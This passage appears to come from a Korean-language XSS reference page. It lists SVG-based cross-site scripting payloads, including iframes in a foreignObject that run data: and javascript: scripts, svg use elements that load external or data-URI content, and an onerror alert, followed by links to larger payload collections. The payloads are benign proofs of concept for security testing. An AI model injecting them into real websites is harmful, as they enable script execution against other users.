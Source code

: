 ```svg
<svg width="500" height="500"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>

<foreignObject width="500" height="500">
<iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
<iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
</foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x"/></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```
[**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)에서 **더 많은 SVG 페이로드를 찾을 수 있습니다.**

## 기타 JS 트릭 및 관련 정보

{% content-ref url="other-js-tricks.md" %}
[other-js-tricks.md](other-js-tricks.md)
{% endcontent-ref %}

## XSS 자료

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
